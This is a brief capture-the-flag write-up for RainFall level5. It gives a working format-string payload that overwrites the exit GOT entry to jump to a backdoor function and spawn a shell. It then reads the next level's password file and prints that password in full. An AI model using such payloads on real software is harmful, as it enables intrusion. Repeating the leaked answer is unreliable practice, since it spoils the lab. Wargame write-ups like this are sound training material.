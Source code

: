 The difference, here, is that there is a backdoor. So we just need to make execute put the address of the function `o` (0x080484a4) where the stack will read.
So, we could put it in the call of `exit`. In the function `exit`, we have this line :

>   0x080483d0 <+0>:	jmp    *0x8049838

And we got :

>(gdb) disas 0x8049838
>Dump of assembler code for function exit@got.plt:
>0x08049838 <+0>:	(bad)  
>0x08049839 <+1>:	addl   $0xffffffe6,(%eax,%ecx,1)

So we can put the address of `o` right there : `0x08049838`

>level5@RainFall:~$ cat <(python -c 'print "\x38\x98\x04\x08" + "%134513824x" + "%4$n"') - | ./level5
>whoami
>level6
>cat /home/user/level6/.pass
>d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

```bash
su level6
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

